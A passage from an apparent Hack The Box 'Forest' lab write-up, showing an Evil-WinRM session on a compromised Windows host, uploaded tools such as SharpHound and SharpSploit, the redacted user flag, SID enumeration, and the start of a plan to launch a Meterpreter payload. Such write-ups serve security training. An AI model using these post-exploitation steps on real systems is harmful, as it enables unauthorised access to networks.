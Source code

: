     -a----       10/24/2019   6:44 AM         919546 SharpHound.ps1
    -a----       10/24/2019   8:36 AM        2222592 SharpSploit.dll
    -a----       10/24/2019   7:26 AM          73802 shell.exe


    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../
    di*Evil-WinRM* PS C:\Users\svc-alfresco> dir


        Directory: C:\Users\svc-alfresco


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        9/23/2019   2:16 PM                Desktop
    d-r---       10/24/2019   9:31 AM                Documents
    d-r---        7/16/2016   6:18 AM                Downloads
    d-r---        7/16/2016   6:18 AM                Favorites
    d-r---        7/16/2016   6:18 AM                Links
    d-r---        7/16/2016   6:18 AM                Music
    d-r---        7/16/2016   6:18 AM                Pictures
    d-----        7/16/2016   6:18 AM                Saved Games
    d-r---        7/16/2016   6:18 AM                Videos


    *Evil-WinRM* PS C:\Users\svc-alfresco> dir Desktop


        Directory: C:\Users\svc-alfresco\Desktop


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -ar---        9/23/2019   2:16 PM             32 user.txt


    *Evil-WinRM* PS C:\Users\svc-alfresco> type Desktop\user.txt
    e5e4e<redacted>

# Getting root

## evil-winrm and binary

Using evil-Winrm we can also check the domain SID (and our user SID):

    :::text
    whoami /user
    USER INFORMATION
    ----------------

    User Name        SID
    ================ =============================================
    htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147

Using evil-winrm we can easily upload a binary using the `upload` function.
Nevertheless I was not able to invoke the binary using the `Invoke-binary`
command. Therefore I used a simple ruby script to get on the machine a launch a
msfvenom meterprter:
